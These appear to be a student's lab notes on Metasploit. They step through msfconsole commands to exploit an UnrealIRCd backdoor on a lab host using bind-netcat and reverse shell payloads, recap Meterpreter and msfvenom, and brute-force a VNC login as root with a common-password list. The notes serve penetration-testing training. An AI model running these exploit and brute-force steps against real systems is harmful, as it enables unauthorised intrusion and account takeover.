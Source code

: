 ![[16.3.0.7.jpg]]
$msfconsole
$search unreal 
- We want to pick the exploit that targets the unreal IRCD
$use 2 
- To pick the second one 

![[16.3.0.8.jpg]]
set PAYLOAD cmd/unix/bind_netcat
- This will choose the type of payload you want to send 

![[16.3.0.9.jpg]]
show options 
- This is telling us that we need to set the RHOST and RPORT

NOTE:
- We are 172.22.117.100
- They are 172.22.117.150

$set lhost 172.22.117.100
$set rhost 172.22.117.150

$show options 
- We want to know if we need anything else 

resulting in - exploit failed: paylaod has not been selected (did not accept the payload)
- Use a different payload 

$set PAYLOAD cmd/unix/reverse 
$exploit 
- exploit failed connection time out \
___
Recap Metasploit
**Metasploit:** Popular C2 framework that contains a suite of tools for enumerating and exploiting servers and other networked devices 
- main tools 
	- **MSF consoles:** The main interface for Metasploit, which runs on your local machine.
	- **Meterpreter:** A Linux-style shell that runs on the machines you compromise.
	- **msf venom:** Allows the operator to craft the malicious agents and payloads that will be used to communicate back with Metasploit

![[16.3.10 1.jpg]]
![[16.3.11 1.jpg]]
____
Actvity: Metasploit 
brute force VNC: 

$Search vnc login
$use 0
- this payload will have file called vnc_password.txt which has all the most common passwords for VNC 
$options 
- options will show what is required 
set RHOST 172.22.117.150
- RHOST to victim machine 
set USERNAME root 
- change user to root 
run 
![[16.3.0.10.jpg]]
- This worked 
